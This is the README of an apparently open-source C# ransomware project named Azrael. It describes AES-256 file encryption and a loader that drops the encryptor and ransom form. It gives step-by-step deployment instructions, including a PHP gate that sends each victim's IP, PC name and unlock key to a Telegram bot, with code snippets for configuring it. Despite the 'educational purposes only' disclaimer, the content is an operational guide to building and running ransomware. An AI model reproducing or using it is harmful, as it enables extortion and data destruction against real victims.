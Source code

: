 # Azrael-Ransomware
![CSHARP](https://img.shields.io/badge/Language-CSHARP-aqua?style=for-the-badge&logo=CS)
![](banner.png)

## 📑 About
```
This is a simple ransomware-example writed in C#.
Yes, many functions and its implementation is weak, but I think this example is worth being.
```
### 💾 Features:
 * Size: 800kb
 * Using Algorithm for Encryption: AES-256
 * Uses a gateway to redirect encrypted information and the unlock key, sending it directly to the telegram bot.
 * Divided into modules: Loader, Encryptor, Form(include decrypt-function) 

## 🏴‍☠️ Video-Fragment


## 💻 Working Graph
<p float="left">
  <img alt="screen" width="500" src="Working_graph.png">
</p> 

## How to use?
 * Create bot in telegram: @BotFather and get your chatid with bot @getmyid_bot
 * Put this data in web-gate(src/WebResender/gate.php)
 ```php
$botToken = 'YOUR-TELEGRAM-BOT-TOKEN';
$chatId = 'YOUR-TELEGRAM-CHAT-ID';
$message = "[🏴‍☠️] New-Victim Computer!\nIP: $API_IP\nPC: $PC\nKey: $key";
 ```
 * And change url to your web-gate:
 ```csharp
public static readonly string UrlServer = "http://127.0.0.1/resender.php"; // Your web-gate
 ```
 * Then compile the FORM(FORM.EXE) and encryptor(ENC.EXE) and then add these two resources to the loader, the main thing is that they are compatible with the names
 (src/Azrael_Loader/Modules/Dropper.cs):
```csharp
16 File.WriteAllBytes(encPath, Properties.Resources.enc);
26 File.WriteAllBytes(formPath, Properties.Resources.Form);
```
 * After this, compile the loader and the project compilation is complete!.
 * Note: (If you want, you can change the keys to whatever you want).


 ### 🕸️ Notation (if ):
 > If you decide to rewrite this project, you will need .net framework 4.

## ⚠️ Disclaimer - this project for education and purposes only!
```
This open-source example ransomware is provided for educational purposes only. 
The author assumes no responsibility for any misuse or illegal activities performed with this software.
Users are solely responsible for ensuring that their use of this tool complies with all applicable laws and regulations.
```